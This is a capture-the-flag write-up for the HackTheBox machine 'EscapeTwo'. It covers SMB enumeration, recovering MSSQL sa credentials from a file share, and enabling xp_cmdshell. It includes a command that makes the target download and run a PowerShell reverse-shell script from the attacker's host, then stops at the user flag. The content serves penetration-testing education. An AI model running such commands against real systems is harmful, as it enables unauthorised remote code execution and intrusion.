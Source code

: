 ```yaml
---
title: "EscapeTwo - HackTheBox Machine"
date: 2025-04-25 00:00:00 
categories: [Hack The Box,Active Directory]
tags: [HTB,CTFs,Active Directory]
---
```

![EscapeTwo machine banner](../pics/escape.png "EscapeTwo machine banner")

## 📝 Description

As is common in real-life Windows pentests, we begin this box with pre-given credentials:

**Username:** `rose`  
**Password:** `KxEPkKe6R8su`

---

## 🔍 Enumeration

We'll start with a basic **Nmap** scan using the following command:

```bash
nmap -sC -sV -sT 10.10.11.51
```
![nmap](../pics/nmap.png)
we will notice this valuable info 
```
DC01.sequel.htb
1433/tcp open  Microsoft SQL Server
389/tcp  open  LDAP
88/tcp   open  Microsoft Windows Kerberos
445/tcp  open  Microsoft-ds SMB
```
## 📁 SMB Enumeration

Let’s enumerate the **SMB protocol** using the credentials we obtained earlier.

We'll use a tool called **`smbmap`** to list accessible shares.

### 🛠️ Command:

```bash
smbmap -u rose -p KxEPkKe6R8su -H sequel.htb
```
![](../pics/smb.png)
```plaintext
[+] IP: 10.10.11.51:445   Name: sequel.htb   Status: Authenticated

    Disk                   Permissions    Comment
    ----                   -----------    -------
    Accounting Department  READ ONLY
    ADMIN$                 NO ACCESS      Remote Admin
    C$                     NO ACCESS      Default share
    IPC$                   READ ONLY      Remote IPC
    NETLOGON               READ ONLY      Logon server share
    SYSVOL                 READ ONLY      Logon server share
    Users                  READ ONLY
    
```
Let's try to connect to smb and check accounting department 
![](../pics/files.png)
we found 2 files and we downloaded them to our local machine using "get" command in smb client

now lets check the type of these files 
![](../pics/filess.png)
we found out its not spreedshet its comprised file so after extracting the files and check them out we got these credentials:
![](../pics/xml%20.png)
we notice **sa** credentials
```
sa is the defult admin account for connecting and managing the MSSQL Database
``` 
### 🧩 Attempting MSSQL Access with `impacket-mssqlclient`

We try to connect to the MSSQL service using **default `sa` credentials**.

### 🛠️ Command:

```bash
impacket-mssqlclient escapetwo.htb/sa:'MSSQLP@ssw0rd!'@10.10.11.51
```
![](../pics/sql.png)
Cool now we have to enable xp_cmdshell to be able to execute commands on the system we can enable it by : 
```bash
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
 ```
 ![](../pics/sqls.png)
 okay let's get reverse shell on the machine 
 first we will need to craft our powershell script to give us reverse shell
 ![](../pics/shell.png)
 then we will run python server and make the machine to download it by this command :
 ```powershell
 EXEC xp_cmdshell 'powershell -ExecutionPolicy Bypass -c "IEX(New-Object Net.WebClient).DownloadString(''http://10.10.16.2/shellx.ps1'')"';
```
Boom we got reverse shell now :
![](../pics/frommachine.png)
after some digging i found configuration file leaking sql_svc information 
```bash
Wqxxxxxxxxxxxxxxxx
```
Also i found user called ryan : 
![](../pics/ryan.png)
Lets use these credintials to login and try to get the user flag : 
![](../pics/userflag.png)
we got the user flag now 